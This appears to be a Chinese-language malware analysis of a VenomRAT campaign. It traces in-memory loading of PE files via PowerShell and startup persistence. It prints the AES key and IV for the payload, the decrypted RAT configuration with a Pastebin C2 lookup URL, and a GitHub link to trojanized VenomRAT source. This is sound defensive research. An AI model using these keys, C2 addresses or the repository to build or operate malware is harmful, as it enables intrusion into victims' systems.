

## 内存加载第一段PE文件

成功解密第一段PE文件后，Powershell脚本即会内存加载此PE文件。

通过分析，发现第一段PE文件的实际代码为空，并无实际功能。

相关反编译截图如下：



## 内存加载第二段PE文件

成功解密第二段PE文件后，Powershell脚本也会内存加载此PE文件。

通过分析，发现第二段PE文件即为实际功能木马。

相关反编译截图如下：



### 创建启动项

通过分析，发现此PE文件执行后，将首先判断系统启动目录中是否存在其启动项，若无，则将创建启动项用以实现自启动。

相关截图如下：





### 解密资源

通过分析，发现此PE文件运行后，还将从资源中读取载荷文件，并解密释放venomrat木马。

相关代码截图如下：



通过分析，梳理解密算法信息如下：

* 解密算法：AES CBC
* key（Base64编码）：knP+exeXyzha1TJ3Xdnv4YhVEGlkS3gNUd2+9EcMW8s=
* iv（Base64编码）：5ynqj0kvG5aFAhCDs1WpWA==

解密流程如下：



## venomrat

通过分析，发现最终载荷木马实际是一款venomrat远控木马。

相关截图如下：



### 解密配置信息

根据笔者前期《NET环境下的多款同源RAT对比》文章中提到的关于venomrat远控木马的配置信息解密方法，我们可有效的对此venomrat最终载荷的配置信息进行提取。

相关配置信息解密流程截图如下：



解密后的配置信息如下：

```
Por_ts:null
Hos_ts:null
Ver_sion:Venom RAT + HVNC + Stealer + Grabber  v6.0.3
In_stall:false
MTX：dwjsrlleihmlidl
Certifi_cate：MIICOTCCAaKgAwIBAgIVAPyfwFFMs6hxoSr1U5gHJmBruaj1MA0GCSqGSIb3DQEBDQUAMGoxGDAWBgNVBAMMD1Zlbm9tUkFUIFNlcnZlcjETMBEGA1UECwwKcXdxZGFuY2h1bjEfMB0GA1UECgwWVmVub21SQVQgQnkgcXdxZGFuY2h1bjELMAkGA1UEBwwCU0gxCzAJBgNVBAYTAkNOMB4XDTIyMDgxNDA5NDEwOVoXDTMzMDUyMzA5NDEwOVowEzERMA8GA1UEAwwIVmVub21SQVQwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAJMk9aXYluIabmb8kV7b5XTizjGIK0IH5qWN260bNCSIKNt2zQOLq6jGfh+VvAA/ddzW3TGyxBUMbya8CatcEPCCiU4SEc8xjyE/n8+O0uya4p8g4ooTRIrNFHrRVySKchyTv32rce963WWvmj+qDvwUHHkEY+Dsjf46C40vWLDxAgMBAAGjMjAwMB0GA1UdDgQWBBQsonRhlv8vx7fdxs/nJE8fsLDixjAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBDQUAA4GBAAVFFK4iQZ7aqDrUwV6nj3VoXFOcHVo+g9p9ikiXT8DjC2iQioCrN3cN4+w7YOkjPDL+fP3A7v+EI9z1lwEHgAqFPY7tF7sT9JEFtq/+XPM9bgDZnh4o1EWLq7Zdm66whSYsGIPR8wJdtjw6U396lrRHe6ODtIGB/JXyYYIdaVrz
Server_signa_ture:KRtbBX6+OhVpmFd/MgPxJrAuARtE/V+EmWvFc0HMsLvKFXqgb1UoUFSzeow7SDLOePjhcephhGw6HR1hi0sV1M0Jaj8rWGFRWTVftjDKGkAGjYBXfeaclRpOkyUlJay8e9cO7B5LmpzDUSbHW4GNGLTMTD+iX3aqvQgvCVoDRxM=
Paste_bin:https://pastebin.com/raw/i3NzmwEg
BS_OD:false
Group:FEB 27 LOGS
Anti_Process:false
An_ti:false
```

### 外联通信

通过分析，发现此样本使用的Paste\_bin配置信息来获取外联地址，直接访问即可提取外联通信地址，相关截图如下：



## 相同通信证书--关联两年前攻击活动

在对venomrat远控木马的配置信息进行解密的过程中，笔者发现venomrat远控木马的版本信息为：Venom RAT + HVNC + Stealer + Grabber v6.0.3

貌似与笔者去年在《携带恶意rootkit的github项目通过SeroXen RAT木马攻击github项目使用人员》文章中剖析的venomrat远控木马的版本相同，进一步研究，笔者发现**此次venomrat远控木马配置信息中的Certifi\_cate证书信息与《携带恶意rootkit的github项目通过SeroXen RAT木马攻击github项目使用人员》文章中提到的VenomRAT-v6.0.3-SOURCE-(**`https://github.com/Litrik002/VenomRAT-v6.0.3-SOURCE-`**)项目中伪装成Venom RAT控制端的Venom RAT + H.exe恶意程序配置信息中Certifi\_cate证书信息相同。**

相关截图如下：



为了探究这两者间的关系，笔者开展了进一步研究分析。

由于VenomRAT-v6.0.3-SOURCE-(`https://github.com/Litrik002/VenomRAT-v6.0.3-SOURCE-`)项目中内置了一个VenomServer.p12文件，通过分析，笔者发现可直接基于空密码从p12文件中提取证书及私钥信息（前期笔者《AsyncRAT加解密技术剖析》文章中有关于p12文件的介绍）。

因此，笔者推测：

* VenomRAT-v6.0.3-SOURCE-(`https://github.com/Litrik002/VenomRAT-v6.0.3-SOURCE-`)项目中的VenomServer.p12文件，可直接用于其他远控木马项目中；
* 根据历史VenomRAT远控的使用方法，VenomRAT远控控制端运行后，将默认创建通信证书文件；
* 常规情况下，攻击者一般会直接使用VenomRAT远控控制端最新生成的通信证书文件，由于这两次攻击活动的通信证书相同，因此，虽无法完全证明两次攻击隶属于同一攻击者所为，但也无法完全摆脱其没有任何相关性的可能。
